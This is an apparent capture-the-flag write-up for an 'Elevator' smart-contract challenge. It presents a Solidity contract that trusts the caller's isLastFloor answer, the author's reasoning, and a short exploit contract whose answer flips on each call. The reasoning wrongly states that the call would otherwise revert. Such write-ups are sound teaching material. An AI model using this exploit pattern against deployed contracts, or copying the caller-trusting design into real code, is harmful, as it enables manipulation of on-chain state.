 # **Level 11 -- Elevator**
## **Contract to hack**
``` ts
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
`````` 
---
## ***Objectives***
* Go to floor
---
## ***Thought Process***
In the `goTo` function, `Building building = Building(msg.sender)` means the contract using interface to call other contract function. Therefore we can create a `building` contract by our own. 

In order to satisfy the `! building.isLastFloor(_floor)` condition, the return value should equal to `false`. However in ` top = building.isLastFloor(floor);` the return value should equal to `true` or the fucntion called would be reverted with error.

As a result, in our `Building` contract, we should make the return value changed when we called the `goTo()` function.

---
## ***Solution***
``` ts
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    address public levelInstance;
    bool public isFloor = true;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function isLastFloor(uint256) external returns (bool) {
        isFloor = !isFloor;
        return isFloor;
    }

    function go(uint256 floor) public {
        IElevator(levelInstance).goTo(floor);
    }

}

```




